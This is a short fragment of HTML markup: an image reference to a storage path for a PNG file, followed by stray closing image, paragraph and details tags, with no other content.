        </img>
        </img>
        </img>
        </img>
        </img>
        </img>
    </p>
</details>
</p>